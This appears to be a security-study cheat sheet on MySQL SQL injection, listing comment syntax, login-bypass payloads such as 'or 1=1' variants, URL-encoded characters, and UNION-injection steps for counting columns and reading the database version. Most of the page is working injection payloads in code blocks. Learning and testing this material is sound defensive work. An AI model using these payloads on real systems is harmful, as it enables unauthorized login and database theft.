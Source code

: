 **Comments**

Comments are used to document queries or ignore a certain part of the query. We can use two types of line comments with MySQL -- and #, in addition to an in-line comment /**/ (though this is not usually used in SQL injections).

### Auth Bypass

Query
````
SELECT * FROM logins WHERE username='admin' AND password = 'p@ssw0rd';
````

| Payload | URL Encoded |
|---------|-------------|
| '       | %27         |
| "       | %22         |
| #       | %23         |
| ;       | %3B         |
| )       | %29         |

````
SELECT * FROM logins WHERE username=''' AND password = 'something';
````
**OR Injection**
````
admin' or '1'='1
' or '1'='1' -- -
' or '1'='1' #
SELECT * FROM logins WHERE username='admin' or '1'='1' AND password = 'something';
SELECT * FROM logins WHERE username='' or '1'='1' -- - ' AND password = 'something';
SELECT * FROM logins WHERE username='' or '1'='1' # ' AND password = 'something';
````

## Union Injection

The Union clause is used to combine results from multiple SELECT statements. This means that through a UNION injection, we will be able to SELECT and dump data from all across the DBMS, from multiple tables and databases.

**Detect number of columns**
````
' order by 1-- -
' order by 2-- -
````
When the application returns an error, it means that we have exceeded the number of columns in that table.

**Detect Fiels**
````
cn' UNION select 1,2,3-- -
````
Check where the numbers appear in the “table” on the page.
While a query may return multiple columns, the web application may only display some of them. So, if we inject our query in a column that is not printed on the page, we will not get its output. This is why we need to determine which columns are printed to the page, to determine where to place our injection.
````
cn' UNION select 1,@@version,3,4-- -
````
